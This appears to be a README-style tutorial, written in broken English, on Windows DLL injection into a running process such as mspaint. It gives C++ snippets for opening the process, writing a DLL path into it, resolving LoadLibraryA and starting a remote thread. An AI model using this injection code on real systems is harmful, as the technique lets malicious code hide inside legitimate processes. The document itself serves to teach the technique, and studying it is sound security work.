



# DLL INJECTION:

.

1. First Open the process we want injected:
In the code we have two parameters the PID and the path of dll:
```c++
printf("usage: dll.injector.exe <path-to-dll> <PID> \n");
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID) // Procces to open the injection
LPVOID allocated_mem = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1, (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE); // Allocation the memory space with all the parameters.
WriteProcessMemory(hProcess, allocated_mem, dll_path, strlen(dll_path) + 1, NULL);
```

2. Obtain the virtual addres:


We must to obtain the "LoadLibrary" API inside the memory space of the mspaint process.  First figura which DLL has the "LoadLibrary" API. In the
documentation we can see that it's reside int the [Kernel32] DLL. We get pointer to the base address of the [Kernel32] DLL.
`HMODULE kernel32Base = GetModuleHandleW(L"kernel32.dll");`

For know how far is the LoadLibrary we use the `FARPROC load_library_address = GetProcAddress(kernel32Base, "LoadLibraryA");`
This magic return the virtual address of the specified API, is called [Export directory] whitin the DLL and lookup the export table to reitreve the address of the API.
We user to see the kernel32 the APP Dependency Walker.
Is the same the load_library_address to mspaint.exe[Malware] process than the mspaint.exe [Paint process]. The address is the same cause the windows do the process in the same address.
.

Create a remote thread `HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)load_library_address, allocated_mem, 0, NULL);`
All this parameters are to def execpt 3:
- hProcess
- load_library_address //entry point
- allocated_mem

